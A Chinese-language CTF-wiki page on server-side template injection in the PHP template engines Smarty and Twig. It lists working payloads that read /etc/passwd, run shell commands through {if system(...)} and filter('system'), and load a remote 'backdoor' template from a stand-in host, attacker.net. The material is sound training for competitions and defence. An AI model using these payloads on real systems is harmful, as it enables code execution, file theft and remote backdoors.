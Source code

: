 # PHP模板
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



单独拉flask来说是因为它实在是感觉非常重要，而且是理解运用其他模板的基础（c语言？）


接下来是两个php相关的模板



## smarty

Smarty是一个PHP的模板引擎，提供让程序逻辑与页面显示（HTML/CSS）代码分离的功能。


这个模板好像是有些年头了，碰到的次数也是很少，但比赛可不会管你学没学会不会，所以还


是在这简单的介绍介绍。（我是想拉个例题的，但是没找到）


利用方式：（搬运工


一般情况下输入{$smarty.version}就可以看到返回的smarty的版本号


Smarty支持使用`{php}{/php}`标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。（Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。）


`{literal}`可以让一个模板区域的字符原样输出。 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。


**通过self获取Smarty类再调用其静态方法实现文件读写被网上很多文章采用。**


Smarty类的getStreamVariable方法的代码如下：


```plain
public function getStreamVariable($variable){        $_result = '';        $fp = fopen($variable, 'r+');        if ($fp) {            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {                $_result .= $current_line;            }            fclose($fp);            return $_result;        }        $smarty = isset($this->smarty) ? $this->smarty : $this;        if ($smarty->error_unassigned) {            throw new SmartyException('Undefined stream variable "' . $variable . '"');        } else {            return null;        }    }
Plain Text
```



可以看到这个方法可以读取一个文件并返回其内容，所以我们可以用self来获取Smarty对象并调用这个方法，很多文章里给的payload都形如：{self::getStreamVariable(“[file:///etc/passwd](file:///etc/passwd)”)}。





Smarty的{if}条件判断和PHP的if非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}，也可以使用{else} 和 {elseif}，全部的PHP条件表达式和函数都可以在if内使用，如||*, or, &&, and, is_array(), 等等，如：{if is_array($array)}{/if}*那么同样的，在利用的过程中{ifsystem(‘cat \flag’)}{/if},亦或者是{if readfile (‘/flag’)}{/if}


大概就这么点了，对了例题：（自己去搜搜）


CISCN2019华东南赛区Web11


[BJDCTF2020]The mystery of ip

## twig

另外一个php模板，其实有三个，这里只写了两个，剩下的那个实在是没有遇见过


这个也挺少见的（对我来说


所以我更倾向于~~只能~~放一些暴力一点的payload了


```plain
Twig - Basic injection
{{7*7}}
{{7*'7'}} would result in 49
{{dump(app)}}
{{app.request.server.all|join(',')}}
Twig - Template format
$output = $twig > render (
'Dear' . $_GET['custom_greeting'],
array("first_name" => $user.first_name)
);
$output = $twig > render (
"Dear {first_name}",
array("first_name" => $user.first_name)
);
Twig - Arbitrary File Reading
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
Twig - Code execution
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
Example with an email passing FILTER_VALIDATE_EMAIL PHP.
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
嗯是的，没错，就是这样（指白嫖怪）
Plain Text
```



来自github上某位老哥的杰作。












